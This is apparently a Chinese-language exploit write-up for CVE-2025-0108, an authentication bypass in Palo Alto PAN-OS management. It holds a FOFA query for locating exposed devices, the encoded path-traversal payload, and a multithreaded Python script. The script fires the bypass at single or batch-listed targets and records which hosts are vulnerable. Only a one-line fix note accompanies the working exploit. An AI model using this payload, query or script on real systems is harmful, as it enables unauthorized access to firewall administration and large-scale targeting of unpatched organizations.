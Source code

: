 # 漏洞描述
Palo Alto Networks PAN-OS GlobalProtect 是Palo Alto Networks 的一款防火墙产品。2025年2日，互联网上披露 CVE-2025-0108 Palo Alto Networks PAN-OS Management 管理端权限绕过漏洞。攻击者可构造恶意请求绕过身份认证进入后台，执行恶意操作。

# 披露时间
2025-02-13

# fofa
"panos" && (icon_hash="-631559155" || icon_hash="873381299")

# 漏洞分析
[https://slcyber.io/blog/nginx-apache-path-confusion-to-auth-bypass-in-pan-os/](https://slcyber.io/blog/nginx-apache-path-confusion-to-auth-bypass-in-pan-os/)

# 漏洞复现
url后拼接`/unauth/%252e%252e/php/ztp_gate.php/PAN_help/x.css`

![](https://cdn.nlark.com/yuque/0/2025/png/46595937/1739933782343-30009a6a-79c4-44db-897b-a4e3bdad5047.png)

# py脚本
```python
#!/usr/bin/python3
# -*- coding:utf-8 -*-
import argparse
import requests
import re
import time
import random
import base64
import json
import concurrent.futures
import sys
import urllib3
from urllib.parse import urljoin, quote

# 禁用 SSL 警告
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
timeout = 15  # 请求超时时间

def verify(url,proxies):
    # if not url.startswith(('http://', 'https://')):
    #     # 如果没有，就添加 'http://'
    #     url = 'http://' + url
    protocols = ['http://', 'https://']
    found_vulnerabilities = False

    for protocol in protocols:
        # 构造目标 URL
        target_url = urljoin(protocol + url.lstrip('http://').lstrip('https://'), "/")
        target_url = target_url.rstrip("/")  # 去除末尾的 "/"
        target_url1 = urljoin(target_url, "/unauth/%252e%252e/php/ztp_gate.php/PAN_help/x.css")

        print(f"Testing URL: {target_url1}")

        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36"
        }
        try:
            r = requests.get(target_url1, headers=headers, verify=False, timeout=timeout, proxies=proxies)
            r1 = requests.get(target_url1, headers=headers, verify=False, timeout=timeout, proxies=proxies)
            if r.status_code == 200 and 'Zero Touch Provisioning' in r.text and 'Zero Touch Provisioning' in r1.text:
                print('\033[1;31m' + '[+] Success ' + url + '\033[0m')
                with open('CVE-2025-0108.txt', 'a') as f:
                    f.write(url + '\n')
            else:
                print("[-] No vulnerabilities found")

        except requests.exceptions.RequestException as e:
            print(e)

def pl(filename):
    try:
        with open(filename, 'r', encoding='utf-8') as f:
            for line in f:
                url = line.strip()
                if url:
                    yield url
    except Exception as e:
        print(f"[-] Error reading file {filename}: {e}")

def main():
    # helpinfo = """ """
    # print(helpinfo)
    parser = argparse.ArgumentParser(description='')
    parser.add_argument('-u', '--url', type=str, help='单个漏洞网址')
    parser.add_argument('-f', '--file', type=str, help='批量检测文本')
    parser.add_argument('-t', '--thread', type=int, help='线程，默认为10')
    parser.add_argument('-p', '--proxies', type=str, help='代理设置，如 http://127.0.0.1:8080')
    args = parser.parse_args()

    proxies = {}
    if args.proxies:
        proxies = {'http': args.proxies, 'https': args.proxies}

    if args.url:
        verify(args.url, proxies=proxies)
    elif args.file:
        urls = pl(args.file)
        thread = 10
        if args.thread:
            thread = args.thread
        with concurrent.futures.ThreadPoolExecutor(max_workers=thread) as executor:
            executor.map(lambda url: verify(url, proxies=proxies), urls)
    else:
        help()

if __name__ == '__main__':
    main()
```

# 修复建议
升级至最新版本

